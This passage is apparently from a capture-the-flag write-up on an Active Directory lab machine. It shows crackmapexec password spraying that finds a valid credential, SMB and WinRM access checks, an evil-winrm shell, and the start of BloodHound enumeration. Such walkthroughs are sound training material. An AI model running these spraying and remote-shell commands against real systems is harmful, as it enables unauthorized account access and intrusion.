 With this information, I can move on to password spraying rather than AS-REP Roasting.

## Shell as melanie
### Password Spraying
Knowing from above sAMAccountName that **Marko Novak** has account name as **marko**, I tried authenticating with the found password but it didn't worked:


`crackmapexec smb 10.10.10.169 -u marko -p Welcome123!`

![](https://i.imgur.com/0dg0rt2.png)


Since it failed, I tried on password spraying:

`crackmapexec smb 10.10.10.169 -u sAMAccountNames.txt -p Welcome123!`
![](https://i.imgur.com/0HkLMGC.png)


After some time I found a valid match: **melanie:Welcome123!**
![](https://i.imgur.com/qrq3XcE.png)


### Checking Access

User melanie had access to **smb**:

`crackmapexec smb 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/6FxR3kC.png)



User melanie also had access to **winrm**:

`crackmapexec winrm 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/rpBKH2b.png)


### Evil-Winrm

Now I have my first shell as user **melanie**!:

`evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!`

![](https://i.imgur.com/XMXkCBy.png)



## Privesc melanie to ryan
### Bloodhound
Since I know this machine is running on Active Directory, I first decided to run **Bloodhound**.

I first moved **SharpHound.exe** to my current folder and uploaded to evil-winrm connection:
